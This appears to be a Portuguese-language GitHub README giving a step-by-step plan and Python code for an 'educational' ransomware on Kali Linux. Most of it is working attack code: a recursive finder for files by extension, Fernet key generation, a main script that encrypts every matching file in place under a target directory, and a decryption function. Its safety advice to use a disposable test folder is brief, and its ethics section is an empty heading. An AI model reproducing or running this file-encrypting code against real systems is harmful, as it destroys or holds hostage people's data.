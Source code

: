 Plano de implementação para resolver o desafio ransomware com python.

A. Ambiente de Desenvolvimento
Sistema Operacional: Use sua máquina virtual Kali Linux.
Ferramentas: Instale Python 3 e bibliotecas relevantes, como cryptography.
Ambiente Controlado: Certifique-se de trabalhar em um ambiente isolado e com arquivos que você possa manipular e apagar sem consequências.

B. Estrutura do Projeto
O ransomware terá as seguintes partes:

Localização de Arquivos: Localiza os arquivos no sistema para criptografar.
- Criptografia: Usa algoritmos para proteger os arquivos.
- Geração de Chaves: Cria e armazena uma chave para descriptografar os arquivos.
- Nota de Resgate: Mostra uma mensagem simulando um ataque.
- Descriptografia: Um módulo opcional para reverter o processo.

C. Configuração do Ambiente - Kali Linux:

1 - Instalar o Python e as bibliotecas necessárias:

sudo apt update
sudo apt install python3 python3-pip
pip3 install cryptography

2 - Crie um diretório para o projeto:

mkdir ransomware_project
cd ransomware_project

3. Código Base
Aqui está uma base para o ransomware educacional:

- Localizar Arquivos
Use o módulo os para percorrer os diretórios e identificar arquivos:

import os

def encontrar_arquivos(diretorio_alvo, extensoes):
    arquivos_encontrados = []
    for root, _, files in os.walk(diretorio_alvo):
        for file in files:
            if file.split('.')[-1] in extensoes:
                arquivos_encontrados.append(os.path.join(root, file))
    return arquivos_encontrados

- Criptografar Arquivos
Utilize a biblioteca cryptography para criptografar com AES:

from cryptography.fernet import Fernet

def gerar_chave():
    chave = Fernet.generate_key()
    with open("chave.key", "wb") as chave_file:
        chave_file.write(chave)
    return chave

def carregar_chave():
    return open("chave.key", "rb").read()

def criptografar_arquivo(arquivo, chave):
    fernet = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados = file.read()
    dados_encriptados = fernet.encrypt(dados)
    with open(arquivo, "wb") as file:
        file.write(dados_encriptados)

Main Script

def main():
    diretorio = "/path/to/directory"  # Alterar para o diretório alvo
    extensoes = ["txt", "jpg", "png", "pdf"]  # Alterar para as extensões desejadas

    print("[+] Gerando chave de criptografia...")
    chave = gerar_chave()

    print("[+] Localizando arquivos...")
    arquivos = encontrar_arquivos(diretorio, extensoes)

    print("[+] Criptografando arquivos...")
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
        print(f"Arquivo criptografado: {arquivo}")

    print("[+] Criptografia concluída.")
    print("ATENÇÃO: Sua chave está salva no arquivo 'chave.key'. Não perca!")

5. Testando com Segurança
   
Diretório de Teste: Crie um diretório com arquivos de teste que você pode perder.
Execução: Execute o script apenas nesse diretório.
Descriptografar (opcional): Implemente a função para reverter a criptografia com a chave gerada.
Descriptografar Arquivo

def descriptografar_arquivo(arquivo, chave):
    fernet = Fernet(chave)
    with open(arquivo, "rb") as file:
        dados_encriptados = file.read()
    dados = fernet.decrypt(dados_encriptados)
    with open(arquivo, "wb") as file:
        file.write(dados)

6. Ética e Responsabilidade!

